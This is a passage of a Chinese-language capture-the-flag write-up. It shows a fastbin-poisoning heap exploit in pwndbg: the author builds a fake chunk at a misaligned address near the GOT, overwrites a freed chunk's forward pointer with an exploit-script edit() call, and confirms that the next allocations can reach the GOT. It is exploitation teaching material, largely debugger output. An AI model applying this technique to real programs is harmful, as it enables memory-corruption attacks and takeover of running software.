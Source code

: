 ```
0x601fd8:       0x0000000000000000      0x0000000000000000
0x601fe8:       0x0000000000000000      0x0000000000000000
0x601ff8:       0x0000000000000000      [0x00000000601e28]       # 注意这里的0x60作size合适
0x602008:       0x00007f56bc9a0168      0x00007f56bc790e10
0x602018:       0x00007f56bc4334f0      0x00007f56bc41e690
...
pwndbg> x/4gx 0x601ffa                  # 找到了合适的伪造chunk地址，注意这里选的地址不必对齐
0x601ffa:       0x1e28000000000000      [0x01680000000060]       # fake size
0x60200a:       0x0e1000007f56bc9a      0x34f000007f56bc79
```

改下脚本，将前面0xdeadbeef改成0x601ffa，然后连续两次malloc就可以分配到目标地址，即可以读写GOT

```
edit(0, 0x100, flat('0' * 0x50, '00000000', 0x61, 0x601ffa))
```

再次附加调试，查看fastbin链已经成功链到选取的got地址处

```
pwndbg> heapbase                           # 查看heapbase地址，这次变为0x7cf000
heapbase:  0x7cf000
pwndbg> x/40gx 0x7cf000                    # 查看堆分配情况，fd被覆盖成0x601ffa
0x7cf000:      0x0000000000000000      0x0000000000000021
0x7cf010:      0x0000000000400896      0x00000000004008b1
0x7cf020:      0x0000000000000000      0x0000000000000061 \
0x7cf030:      0x3030303030303030      0x3030303030303030  |
0x7cf040:      0x3030303030303030      0x3030303030303030  | chunk0
0x7cf050:      0x3030303030303030      0x3030303030303030  |
0x7cf060:      0x3030303030303030      0x3030303030303030  |
0x7cf070:      0x3030303030303030      0x3030303030303030 /
0x7cf080:      0x3030303030303030      0x0000000000000061 \
0x7cf090: fd-> [0x00000000601ffa]      0x0000000000000000  |
0x7cf0a0:      0x0000000000000000      0x0000000000000000  | chunk1
0x7cf0b0:      0x0000000000000000      0x0000000000000000  |
0x7cf0c0:      0x0000000000000000      0x0000000000000000  |
0x7cf0d0:      0x0000000000000000      0x0000000000000000 /
0x7cf0e0:      0x0000000000000000      0x0000000000020f21
0x7cf0f0:      0x0000000000000000      0x0000000000000000
pwndbg> fastbins                           # 查看fastbin链，从 0x7cf080 指向 0x601ffa
fastbins
0x20: 0x0
0x30: 0x0
0x40: 0x0
0x50: 0x0
0x60: 0x7cf080 —▸ 0x601ffa ◂— 0xfe1000007f2f1ec0
0x70: 0x0
0x80: 0x0
pwndbg> x/4gx 0x7cf080                     # 查看第一个free chunk，0x7cf080
0x7cf080:      0x3030303030303030      0x0000000000000061
0x7cf090:      0x0000000000601ffa      0x0000000000000000
pwndbg> x/4gx 0x601ffa                     # 查看第二个free chunk，0x601ffa，也就是我们构造chunk
0x601ffa:       0x1e28000000000000      0xf168000000000060
0x60200a:       0xfe1000007f2f1ec0      0x24f000007f2f1e9f
pwndbg> got                                # 查看got
GOT protection: Partial RELRO | GOT functions: 12
[0x602018] free@GLIBC_2.2.5 -> 0x7f2f1e6a24f0 (free)
[0x602020] puts@GLIBC_2.2.5 -> 0x7f2f1e68d690 (puts)
[0x602028] __stack_chk_fail@GLIBC_2.4 -> 0x4006f6 (__stack_chk_fail@plt+6)
[0x602030] printf@GLIBC_2.2.5 -> 0x7f2f1e673800 (printf)
[0x602038] close@GLIBC_2.2.5 -> 0x400716 (close@plt+6)
...
```
